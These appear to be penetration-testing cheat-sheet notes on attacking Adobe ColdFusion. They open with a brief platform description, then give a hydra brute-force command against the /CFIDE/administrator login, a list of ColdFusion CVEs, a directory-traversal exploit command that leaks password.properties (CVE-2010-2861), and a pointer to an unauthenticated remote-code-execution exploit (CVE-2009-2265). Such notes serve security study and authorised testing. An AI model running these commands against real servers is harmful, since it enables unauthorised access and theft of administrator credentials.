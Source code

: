 ## What is ColdFusion?
- ColdFusion is a web development platform owned by Adobe.
- It uses a special language called CFML (ColdFusion Markup Language), which looks like HTML but has extra powers.
- It helps developers quickly make dynamic websites, connect to databases, and even send emails or create PDFs.
- Default Files	`/CFIDE/administrator/index.cfm` (Admin login).
- Brute Force Default Creds: `hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/CFIDE/administrator/enter.cfm:cfadminPassword=^PASS^&requestedURL=&submit=Login:F=Invalid"`
### CVE's
- CVE-2021-21087	JSP upload bypass
- CVE-2020-24450	Command Injection
- CVE-2020-24449	File Read
- CVE-2019-15909	Cross-Site Scripting (XSS)

### Directory Traversal (CVE-2010-2861)

- Vulnerable Endpoints

    - `/CFIDE/administrator/settings/mappings.cfm`
    -   `/CFIDE/administrator/enter.cfm`
- Exploit `python2 14641.py <TARGET_IP> 8500 "../../../../../../../../ColdFusion8/lib/password.properties"`Leak password.properties (contains encrypted admin passwords).

### Unauthenticated RCE (CVE-2009-2265)
- Vulnerable Path `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`
- use exploit `searchsploit -m 50057.py`
